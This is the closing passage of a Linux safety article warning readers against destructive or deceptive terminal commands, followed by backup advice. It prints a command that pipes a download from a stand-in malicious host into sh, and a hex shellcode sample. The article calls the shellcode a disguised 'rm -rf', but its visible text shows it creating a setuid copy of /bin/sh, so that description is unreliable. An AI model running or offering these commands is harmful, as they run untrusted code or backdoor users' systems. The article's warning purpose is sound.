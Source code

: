 ```
wget http://malicious_source -O- | sh
```

Such commands will download and run malicious scripts in your system, which can undermine the security of your system.

### 10. Disguised commands

There are many ways you can run commands in a Linux terminal. One such way is the hex-coded commands.

```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

While it looks fancy, this is a coded version of `rm -rf` command. It does the same effect as running the previous command. So, while copying and pasting such fancy commands from the internet, be cautious.

### Wrapping Up

![pebkac][8]

There is a famous computing term PEBKAC; “problem exists between keyboard and chair.”

Because in the end, it’s up to the user (you) to ensure that you don’t destroy the system by blindly running any dangerous command.

> It is not UNIX’s job to stop you from shooting your foot. If you so choose to do so, then it is UNIX’s job to deliver Mr. Bullet to Mr Foot in the most efficient way it knows.

And that line equally applies to Linux. You get full control over your operating system. What you choose to do with is totally up to you.

I advise these things to ensure a safer experience:

* Try and understand the commands you are about to run.
* Keep a backup of your system settings with Timeshift
* Keep a backup of personal data (home directory) using DejaDup

As I said, there is no fixed list of dangerous Linux commands. A lot more can be added to this list and there is simply no end to it.

I hope this gives you some hints about what you should not be doing to stay safe with Linux. Let me know if you have suggestions in the comment section.


[#]: subject: "10 Destructive Linux Commands You Should Never Run"
[#]: via: "https://itsfoss.com/dangerous-linux-commands/"
[#]: author: "Abhishek Prakash https://itsfoss.com/"
[#]: collector: "lkxed"
[#]: translator: " "
[#]: reviewer: " "
[#]: publisher: " "
[#]: url: " "
[a]: https://itsfoss.com/
[b]: https://github.com/lkxed
[1]: https://itsfoss.com/sudo-rm-rf/
[2]: https://youtu.be/AiKPo14uVNU
[3]: https://linuxhandbook.com/mv-command/
[4]: https://linuxhandbook.com/mkfs-command/
[5]: https://linuxhandbook.com/dd-command/
[6]: https://linuxhandbook.com/linux-file-permissions/
[7]: https://itsfoss.com/homebrew-linux/
[8]: https://itsfoss.com/wp-content/uploads/2022/09/pebkac.jpg